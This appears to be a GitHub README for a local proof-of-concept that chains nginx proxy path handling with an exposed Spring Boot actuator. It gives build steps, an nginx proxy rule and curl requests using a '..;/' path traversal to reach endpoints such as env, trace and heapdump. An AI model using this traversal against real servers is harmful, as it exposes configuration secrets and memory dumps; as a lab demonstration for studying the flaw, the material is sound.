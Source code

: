 This is a PoC that combines Orange Tsais research about "Breaking parser logic" and an unsecure configuration of spring-boot-starter-actuator as documented in https://www.tutorialspoint.com/spring_boot/spring_boot_actuator.htm


1.) cd spring; mvn clean install
2.) cd target; java -jar orange-actuator-poc-0.0.1-SNAPSHOT.jar
3.) test java service: curl localhost:8080/api/hello
4.) change nginx server listen port to 8081
5.) add this to your nginx configuration to add a proxy rule:
        location /orange {
                proxy_pass http://localhost:8080/api;
                proxy_redirect     off;
                proxy_set_header   Host $host;
	}
6.) start nginx
7.) curl localhost:8081/orange/..;/env
7.) curl localhost:8081/orange/directory/..;/..;/env

Nginx will send the request to the spring boot application at localhost:8080/api/directory/..;/..;/env
The path traversal makes that a request to localhost:8080/env
"env" can be substituted by any default actuaor endpoint, e.g. trace or heapdump

